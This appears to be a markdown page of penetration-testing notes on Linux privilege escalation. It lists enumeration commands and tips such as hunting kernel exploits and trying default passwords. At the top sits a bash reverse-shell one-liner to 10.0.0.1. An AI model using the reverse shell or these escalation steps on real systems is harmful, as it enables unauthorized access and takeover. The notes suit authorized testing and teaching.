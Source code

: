 * wget
* curl
* bash -i >& /dev/tcp/10.0.0.1/8080 0>&1


## Try to get root(Priv esc)

* find online exploits for linux version
	* like for uname -a = `Linux noob 4.4.0-24-generic #43-Ubuntu SMP Wed Jun 8 19:27:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux` we would search for `4.4.0-24-generic linux privelage escalation` 
	* OR run explitsuggester

### What's the distribution type? What version?

```
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release      # Debian based
cat /etc/redhat-release   # Redhat based
```
### What's the kernel version? Is it 64-bit?

```
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
```
### What can be learnt from the environmental variables?

```
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
```

* Check our access on running services and crontabs( if we can write , we win)

* su - otherUser
	* try loggin into other user accounts with some default password

* sudo -l 
Get all files u as user can run as sudo

* find suid
	* `find / -user root -perm -002 -type f -not -path "/proc/*"  2>/dev/null`

* commands to try:
	* System info
		* uname -ia
		* cat `/etc/*-release`
		* lsb_release -a
	* pwd
	* env
	* history
	* Package installed 
		* dpkg -l (Debian based OSs)
		* rpm -qa (CentOS / openSUSE )
	* What's currently running on the box? What active network services are there?
		* ps aux
		* netstat -antup